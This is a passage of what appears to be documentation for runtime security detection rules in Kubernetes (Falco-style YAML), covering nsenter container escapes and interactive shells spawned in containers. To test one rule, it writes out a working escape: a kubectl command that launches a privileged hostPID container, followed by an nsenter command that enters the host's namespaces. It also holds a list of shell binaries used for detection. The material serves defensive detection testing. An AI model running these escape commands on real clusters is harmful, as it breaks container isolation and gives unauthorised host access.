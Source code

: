 ```yaml
    and not is_kind
  output: >
    The command nsenter was used to run a process within the name spaces of another process from within a container
    (user=%user.name command=%proc.cmdline parent=%proc.pname pcmdline=%proc.pcmdline gparent=%proc.aname[2]
    container=%container.name image=%container.image)
  priority: ERROR
  tags: [escape]
```

*Exploit Container Escape with `nsenter`:*

Start a privileged container in Kubernetes:

```sh
kubectl run -it --image=alpine s --restart=Never --rm --overrides '{"spec":{"hostPID":true,"containers":[{"name":"shell","image":"alpine","stdin":true,"tty":true,"command":["/bin/sh"],"securityContext":{"privileged":true}}]}}'
```

From within the container run: `nsenter -t 1 -m -u -i -n sh`

```yaml
# ################################################################################
# Shell Usage in Container
# ################################################################################
- macro: spawned_process
  condition: (evt.type in (execve, execveat) and evt.dir=<)

- list: shell_binaries
  items: [ash, bash, csh, ksh, sh, tcsh, zsh, dash]

- macro: shell_procs
  condition: (proc.name in (shell_binaries))

# Detect attach/exec with terminal shell as root or user
- macro: is_user_shell
  condition: (proc.vpid!=1 and user.uid!=0)

- macro: is_root_shell
  condition: (proc.vpid!=1 and user.uid=0)

- rule: (PG-SHELL) Attach/Exec Pod with Terminal User shell in container
  desc: A shell was created inside an unprivileged container with an attached terminal.
  condition: >
    spawned_process and container
    and shell_procs and proc.tty != 0
    and is_user_shell
  output: >
    A shell was spawned in a container with an attached terminal (user=%user.name user_loginuid=%user.loginuid %container.info
    shell=%proc.name parent=%proc.pname cmdline=%proc.cmdline terminal=%proc.tty container_id=%container.id image=%container.image.repository)
  priority: WARNING
  tags: [container, shell, mitre_execution]
  enabled: true

- rule: (PG-SHELL) Attach/Exec Pod with Terminal Root shell in container
  desc: A shell was created inside a container which runs as root user with an attached terminal.
  condition: >
    spawned_process and container
    and shell_procs and proc.tty != 0
    and is_root_shell
  output: >
```